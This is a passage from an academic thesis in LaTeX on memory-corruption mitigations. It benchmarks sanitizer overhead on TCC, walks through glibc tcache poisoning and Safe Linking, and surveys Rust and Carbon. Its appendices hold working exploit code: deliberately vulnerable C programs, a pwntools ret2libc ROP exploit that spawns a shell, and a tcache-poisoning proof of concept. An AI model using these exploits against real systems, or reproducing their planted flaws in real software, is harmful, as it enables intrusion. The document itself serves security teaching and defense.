The program used for analysing the performance of the mitigations is \emph{TCC} (Tiny C Compiler). TCC was chosen because it represents a program used in the wild, that is complex enough for performance issues to manifest themselves but simple enough to be able to iterate rapidly over sets of mitigations. The version tested is \emph{release\_0\_9\_27}.

The exact commit hash is: \texttt{d348a9a51d32cece842b7885d27a411436d7887b}.

The compilers used for compiling TCC were:
\begin{itemize}
  \item \texttt{GCC} - version 11.3.0 (Ubuntu 11.3.0-1ubuntu1~22.04.1)
  \item \texttt{Clang} - Ubuntu clang version 14.0.0-1ubuntu1
\end{itemize}

In order to gather and aggregate the results of multiple runs, \emph{hyperfine} version 1.12.0 was used.

The benchmark consists of compiling the \emph{speedbench.c} file, generated with \emph{csmith} 2.4.0 using the following commandline arguments ``--seed 328954452 --max-funcs 90''. \emph{cmisth}~\cite{csmith} is a tool that generates C code and was successfully used to find bugs in mainstream compilers.

\subsubsection{Results}
\begin{table}[H]
\centering
\begin{tabular}{|l|r|r|r|r|r|r|r|}
\hline
Compiler flags & Mean & $\delta$ & Min & Max & Speedup \\
\hline
 Optimize &  47.8 ms & 2.8 ms & 43.6 ms & 62.3 ms & 1x \\
 No stack protector&  46.6 ms & 1.9 ms  & 43.2 ms  &  59.1 ms & 1.025x \\
 Ubsan &  102.8 ms & 3.4 ms & 95.6 ms  & 116.5 ms & 0.460x \\
\hline
\end{tabular}
\caption{GCC results}
\label{table:gcc}
\end{table}

\begin{table}[H]
\centering
\begin{tabular}{|l|r|r|r|r|r|r|r|}
\hline
Compiler flags & Mean & $\delta$ & Min & Max & Speedup \\
\hline
  Optimize &  47.6 ms & 2.1 ms & 44.0 ms & 68.8 ms & 1x \\
  SafeStack &  50.0 ms &  2.5 ms & 45.9 ms & 61.5 ms & 0.952x \\
  Ubsan &  119.4 ms & 5.3 ms &  112.6 ms & 150.8 ms & 0.398x \\
  Ubsan minimal & 72.0 ms & 3.6 ms &  66.0 ms& 89.2 ms & 0.661x \\
  Asan+Bounds &  136.2 ms &  6.5 ms&   126.9 ms & 160.2 ms & 0.349x \\
  Hardened & 218.0 ms & 5.8 ms & 205.8 ms & 238.9 ms & 0.218x \\
\hline
\end{tabular}
\caption{Clang results}
\label{table:clang}
\end{table}

As expected, the more mitigations and sanitizers are added, the slower the execution time becomes, highlighting the importance of secure coding practices. Even though the performance losses seem massive (~4x slower execution time in the \emph{Hardened}), the baseline performance needs to be considered. C is one of the fastest languages when it comes to execution time, giving us some leeway to use these protections.

\emph{Clang} seems to be at the forefront of sanitization passes as its support is more complete and it has more choices. A fully hardened binary that protects against almost all known memory corruption while only being ~4x slower than baseline. This level of protection rivals the one offered by interpreted languages such as \emph{Python} or \emph{JavaScript}.

Another fact that needs to be considered is that with more and more mitigations diminishing returns start to kick in. Some essential mitigations(Stack Protector and SafeStack) have a small impact on runtime performance while thwarting many exploitation techniques.

For production environments, the minimal runtime is available, which gains around a \emph{50\%} performance uplift when compared to the standard runtime, bringing the performance closer to the unsanitized version.

The use of sanitizers has proven itself even in environments where performance is paramount, such as the Linux Kernel, and due to rising interest in memory protection, hardware solutions such as \emph{Hardware Tag-Based KASAN} are actively being used in production with a low memory and processing overhead.

Another useful feature of most sanitizers is their detailed report about the erorrs they encountered. This is an example of such report taken from \cite{KernelUbsan}:

\begin{lstlisting}[caption={Kernel UBSAN Report}
      ,label={lst:ubsan_report}
      ,language=bash]
===========================================================
UBSAN: Undefined behaviour in ../include/linux/bitops.h:110:33
shift exponent 32 is to large for 32-bit type 'unsigned int'
CPU: 0 PID: 0 Comm: swapper Not tainted 4.4.0-rc1+ #26
 0000000000000000 ffffffff82403cc8 ffffffff815e6cd6 0000000000000001
 ffffffff82403cf8 ffffffff82403ce0 ffffffff8163a5ed 0000000000000020
 ffffffff82403d78 ffffffff8163ac2b ffffffff815f0001 0000000000000002
Call Trace:
 [<ffffffff815e6cd6>] dump_stack+0x45/0x5f
 [<ffffffff8163a5ed>] ubsan_epilogue+0xd/0x40
 [<ffffffff8163ac2b>] __ubsan_handle_shift_out_of_bounds+0xeb/0x130
 [<ffffffff815f0001>] ? radix_tree_gang_lookup_slot+0x51/0x150
 [<ffffffff8173c586>] _mix_pool_bytes+0x1e6/0x480
 [<ffffffff83105653>] ? dmi_walk_early+0x48/0x5c
 [<ffffffff8173c881>] add_device_randomness+0x61/0x130
 [<ffffffff83105b35>] ? dmi_save_one_device+0xaa/0xaa
 [<ffffffff83105653>] dmi_walk_early+0x48/0x5c
 [<ffffffff831066ae>] dmi_scan_machine+0x278/0x4b4
 [<ffffffff8111d58a>] ? vprintk_default+0x1a/0x20
 [<ffffffff830ad120>] ? early_idt_handler_array+0x120/0x120
 [<ffffffff830b2240>] setup_arch+0x405/0xc2c
 [<ffffffff830ad120>] ? early_idt_handler_array+0x120/0x120
 [<ffffffff830ae053>] start_kernel+0x83/0x49a
 [<ffffffff830ad120>] ? early_idt_handler_array+0x120/0x120
 [<ffffffff830ad386>] x86_64_start_reservations+0x2a/0x2c
 [<ffffffff830ad4f3>] x86_64_start_kernel+0x16b/0x17a
=========================================================
\end{lstlisting}

\section{Sanitizers in action}
\subsection{Tcache poisoning}
\emph{Tcace poisoning} emerged with the introduction of the thread caching system in glibc 2.26, which was intended to improve the performance of multithreaded applications. However, due to the lack of security checks in this new mechanism, attackers found a way to manipulate the internal data structures of the heap. This manipulation, called Tcache poisoning, allows attackers to trick malloc into returning arbitrary addresses, leading to profound security implications. Tcache has since been updated in glibc 2.32 with a new mitigation: Safe Linking. Before this version, the pointers in each node of the tcache buckets were stored as is, without any protection. Safe Linking uses entropy from the base address of the heap (requiring \emph{ASLR}) to mangle the pointers while they are not actively used. 

Here is the formula used for pointer mangling:
\begin{equation}
    fwd_{ptr} = (addr\_of(fwd_{ptr}) >> 12) \oplus fwd_{ptr}  
\end{equation}

Because the address of the pointer and the value of the pointer are usually close together, the pointer can be unmangled if successfully leaked. The chances of unmangling the pointer can be increased  by abusing the fact that any malloc allocation must be aligned to hold any kind of object (in this aligned to 16 bytes). Here are the steps required to do this operation:

\begin{equation}
     original\_ptr = (P >> 24) \oplus P~\&~0xfffffffffff0;
\end{equation}
Where: 
\begin{equation}
     P = (mangled\_ptr >> 12) \oplus mangled\_ptr;
\end{equation}

The following segment will provide an in-depth walkthrough of this exploitation technique demonstrated on the code at Annex \ref{lst:tcache_poison}, elucidating its workings, potential impacts, and security challenges.
\begin{lstlisting}[language={C},label={lst:entry},caption={\emph{tcache\_entry} struct}]
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  uintptr_t key;
} tcache_entry;
\end{lstlisting}

The code at Listing~\ref{lst:entry} showcases the Linked List node type used by Tcache. The \emph{next} pointer is self-explanatory and the \emph{key} is a random enough\footnote{Does not need to be cryptographically secure} value that allows Tcache to detect if an allocation has already been free'd. When an allocation that was passed to free is intercepted by Tcache, the \emph{key} field of the allocation is checket to see if it contains the random value, and if it does the entire tcache bucket is checked to see if the allocation is already present in the list. The random value should be random enought that this happens rarely. In case free'd allocation is found in the free list, the process terminates as a double free has happened.

\begin{lstlisting}[language={C},label={lst:tcachewarm},caption={Warming up the tcache}]
 for (int i = 0; i < 3; i++) {
    allocations[i] = malloc(0x20);
    printf("addr of alloc[%d]: %p\n", i, allocations[i]);
  }

  printf("\n");

  free(allocations[2]);
  free(allocations[0]);
  free(allocations[1]);
\end{lstlisting}

In Listing~\ref{lst:tcachewarm} allocations are made that are immediately freed. By doing so the tcache bucket corresponding to the size 0x20 is populated with the following linked list: $alloc_1 \rightarrow alloc_0 \rightarrow alloc_2$. 

\begin{lstlisting}[language={C},label={lst:protectptrs}]
(allocations[1])->next 
        = PROTECT_PTR(&(allocations[1])->next, bad_buffer);
\end{lstlisting}

Now, the \emph{next} pointer of the list overwritten, and allocations are made in order to pop allocations from the stack until our arbitrary address alocation is returned:

\begin{lstlisting}[language={C}]
  assert(fd_alloc1 == allocations[0]);
  /* Only works sometimes due to ASLR
   * Demangle requires the two consecutive chunks to be in the same page
   * assert(demangle((size_t)((tcache_entry*)allocations[1])->next) ==
   * (size_t)allocations[0]);
   */

  /* Use after free */
  (allocations[1])->next = PROTECT_PTR(&(allocations[1])->next, bad_buffer);

  assert(malloc(0x20) == allocations[1]);
  assert(malloc(0x20) == bad_buffer);
\end{lstlisting}

This code proves that malloc returned an allocation from within the binary (BSS) and not the Heap. This technique can be extended to return any address that respects the following condition:

\begin{equation}
    address + sizeof(void*)~is~writable
\end{equation}

This condition is required due to a security mitigation in the tcache algorithm. In order to prevent leaking sensitive information the \emph{key} value is zeroed when giving the allocation back to the program through malloc. 
\begin{lstlisting}[language={C},label={lst:tcache_get},caption={Tcache clearing the key field}]
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  /* VVV The key is cleared here */
  e->key = NULL;
  return (void *) e;
}
\end{lstlisting}

This attack is designed to simulate the ideal situation, in which only a small number of writes are executed and there are no buffer overflows. Even in this scenario \emph{Address Sanitizer} was enough to completely thwart the exploitation attempt, while also providing valuable debugging insight for programmers. 
\begin{lstlisting}[language={Bash}]
==37426==ERROR: AddressSanitizer: heap-use-after-free on address 0x603000000040 at pc 0x5565ff3b2011 bp 0x7fff0a69dfd0 sp 0x7fff0a69dfc8
\end{lstlisting}

\begin{lstlisting}[language={Bash}]
    freed by thread T0 here:
    ...
    previously allocated by thread T0 here:
\end{lstlisting}

ASAN has correctly determined that writes are made to a freed chunk that was allocated and freed by thread 0 (the primary thread). It is essential to correctly track which allocation was made in which thread because freeing a tcache allocation twice without modifying the \emph{key} value is possible if the free's are executed in different threads because each thread has its own tcache, and when the second thread frees the allocation, it will not be found in the free list and program execution will proceed even though the \emph{key} is correctly populated. This vulnerability stems from the fact that if the key field is present, it is not guaranteed that the allocation was already free'd, because a user might write the correct key to that slot unknowingly.

\section{Economic impact}%
After determining the effect that the mitigations had on performance, the next step will be to investigate the economic and financial repercussions of the exploits that the mitigations were designed to stop. 

In recent years, the blockchain domain has emerged as one of the most prominent arenas for software exploitation. This development took place in recent years. As a technology built upon the principles of decentralization and cryptography, blockchain applications, especially cryptocurrencies, have attracted significant attention from ethical and malicious actors. Given the tangible real-world value of many digital assets, the incentive for exploiting these systems is often financial gain. Smart-contract vulnerabilities, insecure wallets, and compromised blockchain platforms have led to numerous notable breaches, highlighting the critical importance of rigorous security practices in designing, implementing, and operating blockchain-based systems. Multiple publications estimated that in 2022 alone, \emph{4 billion dollars} were stolen. Ransomware has also emerged as a significant threat in the software exploitation arena, causing extensive harm primarily through service disruptions.

Beyond direct financial loss from ransoms, these attacks result in considerable operational downtime and economic damage. Consequently, the real impact of ransomware extends beyond the immediate ransom, emphasizing the necessity of comprehensive security measures and incident response strategies.

\subsection{MITRE}
The realm of digital threats is multifaceted and consistently shifting, requiring an organized strategy to spot, comprehend, and address risks. In answer to this need, the MITRE Corporation was created as a non-profit entity, devoted to finding solutions for a more secure world. A key initiative of MITRE has been the creation and oversight of the \emph{Common Vulnerabilities and Exposures} (CVE) framework. This system acts like a reference guide of publicly revealed cybersecurity weaknesses and threats, delivering standardized names for such risks, promoting information sharing, and allowing for data collation and pattern scrutiny. By establishing a shared communication framework, CVE bolsters cooperation among various segments of the cybersecurity sphere—researchers, industry professionals, and product manufacturers—in their collective efforts to fortify our digital defenses.

\section{Future trends}%
Sanitization approaches are progressively being moved from the runtime phase to the compilation step as a result of increased efforts to accomplish this. The programming language Rust serves as a perfect illustration of this trend. Rust has attracted significant interest in the field of cybersecurity due to the inherent memory safety features that it possesses. Rust stands out from other programming languages as a potent instrument for system programming due to its ownership semantics, type safety, and memory safety, in addition to the fact that it does not do garbage collection. Its purpose is to defend against traditional methods of exploiting vulnerabilities and memory corruption issues. As a consequence of this, Rust is fast gaining ground as a desirable alternative for the development of software in critical systems where the prohibition of unauthorized access or the manipulation of data is essential. Because of this, there has been a significant uptick in curiosity about how its one-of-a-kind design ideas might assist in enhancing the safety of the system. Therefore, in the context of the continuous development of safe programming standards, it is both timely and essential to investigate Rust's potential for reducing the likelihood of exploitation.

Another attempt at increasing the soundness of system programming languages is Carbon, developed by Google, a memory-safe programming language that has the power to interact in a seamless manner with historical code bases written in C and C++. This development is part of a larger movement toward safer programming paradigms. In the broader context of the software industry's efforts to reduce software exploitation resulting from memory corruption flaws, this recent finding is essential. Carbon, on the other hand, offers effective safeguards against such weaknesses, in contrast to historically vulnerable programming languages. Carbon makes it easier to shift to more safe coding techniques by providing the essential tools for interfacing with current C/C++ code bases. This allows the transition to take place without the need for a complete rewrite of the code that has already been built. This demonstrates the potential of utilizing memory-safe languages as a viable method in combating software exploitation, and highlights the need of continuing to make improvements in this field.

\section{Conclusion}
In conclusion, with the accelerating pace of technological advancements, the exploitation landscape continually evolves, necessitating proactive security measures. These include active vulnerability hunting, widespread use of sanitizers in testing and production environments, and adopting safe programming languages such as Rust, which inherently prevent particular vulnerabilities. In this dynamic and complex environment, secure programming languages can alleviate some of the cognitive load from developers, enabling them to focus more on the logic and less on the potential security pitfalls of their code.

Simultaneously, it is crucial to recognize and address the gap between hardware and software in terms of exploit mitigation. While hardware support for various mitigation techniques exists, they often need to be used due to software not keeping up or compatibility issues, underscoring the need for an improved synchronization between hardware advancements and software development.

Looking forward, it is evident that achieving robust cybersecurity requires a multi-faceted approach. By combining proactive security measures, safe programming practices, and better hardware-software integration, systems that are not just responsive but resilient to the challenges of software exploitation can be built. As the fight against cyber threats is far from over, continuing to invest in and develop these strategies is essential and imperative to our digital security.

Scripts and code samples are available at:

\texttt{https://github.com/Potochi/licenta}

\printbibliography

\begin{appendices}
\section{Buffer overflow vulnerable program}
\begin{lstlisting}[label={lst:bof-sample}
      ,language=C]
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This function is a gadget typically
 * found through Return Oriented Programming (ROP)
 * in a larger binary, and it's crucial
 * for changing control flow.
 * It serves to demonstrate the general
 * concept in this simplified context.
 *
 * In a real-life scenario,
 * it would be necessary to find this gadget
 * or pivot the stack in a different manner.
 */
extern void __attribute__((naked)) helper_gadget() {
        __asm(".intel_syntax noprefix\n"
              "jmp rsp\n"
              ".att_syntax\n");
}

/* Example of a vulnerable function in which
 * the size of the concatenated strings is not
 * checked to be less than the size of the
 * buffer in which they are concatenated.
 *
 * This would most likely never cause issues
 * because names are almost never this long, but
 * it is easy for an attacker to exploit this.
 */
void say_hi(char* name) {
        char local_buffer[0x100];

        strcat(local_buffer, "Hi ");
        strcat(local_buffer, name);
        strcat(local_buffer, "!");

        puts(local_buffer);

        return;
}

int main(int argc, char** argv) {
        if (argc != 2) {
                fprintf(stderr, "usage: say_hi <name>\n");
                return 1;
        }

        say_hi(argv[1]);

        return 0;
}
\end{lstlisting}

\section{Stack layout protection sample code}
\begin{lstlisting}[
      label={lst:stack-layout}
      ,language=C]
#include <string.h>
extern void dont_optimize_str(char* ptr);
extern void dont_optimize_int(int* ptr);

int buffer_first(char* source) {
    char dest[0x100];
    int len;
    int foo;
    int bar;

    strcpy(dest, source);
    len = strlen(dest);
    foo = len * 2;
    bar = len - 3;

    dont_optimize_str(dest);
    dont_optimize_int(&len);
    dont_optimize_int(&foo);
    dont_optimize_int(&bar);
}

int buffer_last(char* source) {
    int len;
    int foo;
    int bar;
    char dest[0x100];

    strcpy(dest, source);
    len = strlen(dest);
    foo = len * 2;
    bar = len - 3;

    dont_optimize_str(dest);
    dont_optimize_int(&len);
    dont_optimize_int(&foo);
    dont_optimize_int(&bar);
}
\end{lstlisting}%
\label{code:example_func}

\section{Pwntools ret2libc example}
\begin{lstlisting}[language={Python},label={lst:pwntools}]
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('ret2libc')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

with start() as io:
    io.recvuntil(b": ")
    puts_addr = int(io.recvline().strip()[2:], 16)

    log.info(f"{puts_addr=:016x}")

    libc.address = puts_addr - libc.symbols["puts"]

    log.info(f"{libc.address=:016x}")

    rop = ROP(libc)
    ret_address = rop.ret
    rop.call(ret_address)
    rop.call("system", (next(libc.search(b"sh\x00")),))

    payload = b""
    payload = payload.ljust(0x108, b"\x00")
    log.info(rop.dump())
    payload += rop.chain()

    io.sendline(payload)

    io.interactive()
\end{lstlisting}

\section{Seccomp filtered shellcode}
\begin{lstlisting}[language={C},label={lst:seccomp}]
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <seccomp.h>
#include <unistd.h>

extern void __attribute__((naked)) helper_gadget() {
        __asm(".intel_syntax noprefix\n"
              "jmp rsp\n"
              ".att_syntax\n");
}

void say_hi() {
        char local_buffer[0x100];

        read(0, local_buffer, 0x300);
        write(1, local_buffer, 0x300);

        return;
}

int main(int argc, char** argv) {
        scmp_filter_ctx ctx;
        int rc = -1;

        /* Create a new filter context */
        ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                return 1;
        }

        if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 1, SCMP_A0(SCMP_CMP_EQ, 0)) < 0) {
                return 1;
        }
        if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1, SCMP_A0(SCMP_CMP_EQ, 1)) < 0) {
                return 1;
        }
        if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0) < 0) {
                return 1;
        }

        rc = seccomp_load(ctx);
        if (rc < 0) {
                return 1;
        }

        say_hi();

        return 0;
}
\end{lstlisting}
\section{Heap tcache poisoning}
\begin{lstlisting}[language={C},label={lst:tcache_poison}]
#include <assert.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

void *allocations[3];

typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  uintptr_t key;
} tcache_entry;

#define PROTECT_PTR(pos, ptr)                                                  \
  ((__typeof(ptr))((((size_t)pos) >> 12) ^ ((size_t)ptr)))

#define REVEAL_PTR(ptr) PROTECT_PTR(&ptr, ptr)

size_t demangle(size_t ptr) {
    size_t o2 = (ptr >> 12) ^ ptr;
    return (o2 >> 24) ^ o2 & 0xfffffffffff0;
}

static char bad_buffer[0x100];

int main() {
  for (int i = 0; i < 3; i++) {
    allocations[i] = malloc(0x20);
    printf("addr of alloc[%d]: %p\n", i, allocations[i]);
  }

  printf("\n");


  free(allocations[2]);
  free(allocations[0]);
  free(allocations[1]);

  
  printf("fd  of alloc[0]: %p\n", ((tcache_entry *)allocations[0])->next);
  printf("key of alloc[0]: 0x%lx\n", ((tcache_entry *)allocations[0])->key);

  printf("fd  of alloc[0]: %p\n", ((tcache_entry *)allocations[1])->next);
  printf("key of alloc[0]: 0x%lx\n", ((tcache_entry *)allocations[1])->key);

  void* fd_alloc1 = PROTECT_PTR(allocations[1], ((tcache_entry*)allocations[1])->next);
  printf("revealed fd of alloc [1]: %p\n", fd_alloc1);

  assert(fd_alloc1 == allocations[0]);
  /* Only works sometimes due to ASLR
   * Demangle requires the two consecutive chunks to be in the same page
   * assert(demangle((size_t)((tcache_entry*)allocations[1])->next) ==
   * (size_t)allocations[0]);
   */

  /* Use after free */
  ((tcache_entry *)allocations[1])->next = PROTECT_PTR(&((tcache_entry *)allocations[1])->next, (tcache_entry *)bad_buffer);

  assert(malloc(0x20) == allocations[1]);
  assert(malloc(0x20) == bad_buffer);
}
\end{lstlisting}

\end{appendices}
\end{document}
